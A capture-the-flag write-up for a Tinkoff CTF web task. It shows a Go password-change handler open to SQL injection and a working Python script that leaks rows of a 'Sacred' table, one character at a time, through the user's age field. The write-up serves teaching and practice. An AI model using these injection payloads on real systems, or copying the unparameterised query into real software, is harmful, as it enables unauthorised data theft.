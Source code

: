 # Прометей 2077
## Task
[Task link](https://ctf.tinkoff.ru/tasks/fire)
Греческие боги наносят ответный удар.

Они забрали у всех пользователей интернета эмодзи 🔥 и запечатали его в надёжной таблице `Sacred` рядом с другими артефактами.

Герой с ником Prometheus решил выкрасть огонёк. Помогите ему и верните огонь в интернеты и переписки: t-fire-oudjc9cv.spbctf.net/


## Solution

We need to leak artifacts from `Sacred` table.

See in [init-db.sql](fire/postgres/init-db.sql) application creates 3 artifacts in this table.

Register and login to service, here in profile we can change password and age.

Look at the code of password change, find sql injection in [UpdatePassword](fire/internal/controllers/user.go#64) method.

```go
func UpdatePassword(c *gin.Context) {
  // some code
	password := c.PostForm("password")
	password = strings.ReplaceAll(password, "🔥", "💨")
  // some code
	go func(db *sql.DB, password, username interface{}) {
    // some code
		query := fmt.Sprintf("UPDATE users SET password = '%s' \n", password) // hashPassword(password))
		query = query + "WHERE username = $1"
		_, err := db.ExecContext(ctx, query, username)
    // some code
    }(db, password, username)

	Logout(c)
}
```

We can update our username with artifact, but application makes logout after password change.

Decide to leak artifacts through user age char by char.

We will write our exploit in python using requests.

```python
import requests

username='login'
password='password'
host="https://t-fire-7pl39ns6.spbctf.net"
```

Query to get length of artifact

```python
def art_query_length(artifact_id):
  return f"{password}',age=(select length(artefact) from sacred limit 1 offset {artifact_id}),username='{username}"
```

Query to get char at offset of n'th artifact.

```python
def art_query_char(char_idx, artifact_id):
  return f"{password}',age=(select ascii(SUBSTRING(artefact, {char_idx}, 1)) from sacred limit 1 offset  {artifact_id}),username='{username}"
```

Write some auxilary methods
```python
def login():
  session.post(f"{host}/signin", data={
    'username': username,
    'password': password,
  })

def get_age():
  profile = session.get(f"{host}/profile/get").json()
  print("PROFILE ", profile)
  return int(profile['age'])

def change_password(password):
  session.post(f'{host}/profile/password', data={
    'password': password
  })
  login()
```

And write logic to leak artifacts

```python
def get_artifact(idx):
  login()
  # get artifact length
  change_password(art_query_length(idx))
  artifact_length = get_age()
  print(f"ARTIFACT {idx} LENGTH {artifact_length}")
  message = ''
  # get artifact chars
  for i in range(artifact_length+1):
    change_password(art_query_char(i, idx))
    age = get_age()
    print(f"AGE {i}", age)
    message += chr(age)
    # print(message) # debug
  print(message)

for i in range(0, 3):
  get_artifact(i)
```



